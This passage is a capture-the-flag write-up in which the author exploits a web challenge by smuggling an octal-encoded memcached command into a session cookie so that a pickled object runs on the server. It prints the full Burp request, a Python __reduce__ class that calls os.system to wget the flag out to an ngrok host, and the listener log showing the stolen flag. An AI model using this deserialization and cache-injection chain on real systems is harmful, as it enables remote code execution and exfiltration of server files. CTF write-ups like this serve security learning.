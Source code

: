 As per the HTTP specs, we need send it with double quotes as the session cookie. I used burp: 
```
GET /set?uicolor=green HTTP/1.1
Host: 83.136.252.32:47034
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\062\070\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\042\150\164\164\160\163\072\057\057\062\143\065\062\055\062\064\060\067\055\144\060\060\060\055\064\060\063\055\145\060\060\145\055\066\060\144\062\055\071\061\060\144\055\144\146\067\143\055\144\146\064\144\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\057\163\157\155\145\164\150\151\156\147\044\050\143\141\164\040\057\146\154\141\147\052\051\042\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\061\063\063\067"; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imhhc2hpc2giLCJzdWJzY3JpcHRpb24iOiJndWVzdCIsImlhdCI6MTcwNTE5MTQ3OSwiZXhwIjoxNzA1Mjc3ODc5fQ.thx2tlcE92NDlzrVXEzXtpBD1wezF6_-w2Yem60vrUM; 
Connection: close
```

At first it returned me a `200` response. While i should have gotten an `Internal Server Error`. Running it a couple times, returned me a request on my `ngrok` terminal:
![image](https://github.com/hash3liZer/khatta/assets/29171692/5df209cf-3e5f-4a0a-ae0b-45bc7657993c)

So, i modified the exploit a bit to get the flag: 
```python
class RCE:
    def __reduce__(self):
        cmd = ('wget "https://2c52-2407-d000-403-e00e-60d2-910d-df7c-df4d.ngrok-free.app/something$(cat /flag*)"',)
        return os.system, (cmd,)
```

I sent the request second and got the response on terminal: 
```
# python -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
::1 - - [12/Mar/2024 22:06:38] code 404, message File not found
::1 - - [12/Mar/2024 22:06:38] "GET /somethingHTB%7By0u_th0ught_th15_wou1d_b3_s1mpl3?} HTTP/1.1" 404 -
```

## Ending Note
Overall, it was really fun playing the CTF and just like any other time, i got new things to learn :)
